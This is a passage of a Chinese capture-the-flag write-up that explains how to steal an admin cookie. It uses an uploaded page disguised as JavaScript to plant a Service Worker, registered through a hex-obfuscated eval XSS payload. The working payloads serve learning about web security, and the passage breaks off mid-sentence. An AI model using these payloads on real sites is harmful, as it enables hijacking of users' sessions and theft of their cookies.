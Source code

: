 
对于第二个flag，用户的行为如下：


1. 访问我们给他的链接（必须是https协议）
2. 访问/admin网页，并在半秒之后将cookie设为flag，并设置cookie的path为/admin

由于是先访问我们的链接，再访问/admin，之前的方法就行不通了（不过就算顺序反一下好像也不行，因为iframe好像会强行把src的https改成http，然后会因为不同源的问题被禁止加载）


那么思路就是，通过我们提供的链接，给用户植入一个Service Worker脚本，这个脚本要能在用户访问/admin时劫持请求，然后把cookie设置到title上。


由于Service Worker有非常严格的限制，比如只能在https网站上注册来自同源站点的脚本等，所以我们首先需要想办法上传一个脚本到服务器上去。（不知道为什么当时这一步卡了很久，这服务端不明摆着的有一个上传接口吗？）当然我还查到一些通过jsonp来绕过同源限制的例子，不过这题明显不支持jsonp。


为了做这道题，只需要学一点点的Service Worker语法，写一个最小工作示例差不多就够了：

```js
self.addEventListener('fetch', function(event) {
    event.respondWith(
        new Response('<script>setTimeout(()=>{document.title = document.cookie;}, 1000);</script>',
            {headers: {'Content-Type':'text/html'}}
        )
    )
});
```

考虑到用户在访问/admin网站半秒后才设置flag，我们就延迟1秒再设置title。


将上面的脚本内容作为Body，注意到我们居然甚至还能修改Response Header，那就直接将Header设置为下面的内容：

```json
{
    "Content-Type": "text/javascript"
}
```

，这样，我们注册的第一个个人主页就能假装自己是一个JavaScript脚本文件了，我们将这个网页的用户名注册为sw。


接下来，我们注册第二个个人主页，用以让用户访问，在这个主页上给用户植入前面的那个脚本。与第一个flag类似，可以采用下面的方法：

```markup
<script>navigator.serviceWorker.register('/sw/', {'scope': '/'});</script>
```

并且将代码转成16进制来执行：

```markup
<script>window.eval('\x6e\x61\x76\x69\x67\x61\x74\x6f\x72\x2e\x73\x65\x72\x76\x69\x63\x65\x57\x6f\x72\x6b\x65\x72\x2e\x72\x65\x67\x69\x73\x74\x65\x72\x28\x27\x2f\x73\x77\x2f\x27\x2c\x20\x7b\x27\x73\x63\x6f\x70\x65\x27\x3a\x20\x27\x2f\x27\x7d\x29\x3b')</script>
```

这就是第二个个人主页的内容。


然后让用户访问第二个个人主页，等待数秒，结果却失败了。。。Service Worker好像并没有像我想的那样工作。


于是我自己在浏览器里访问了一下第二个个人主页，结果发现浏览器控制台有条报错：
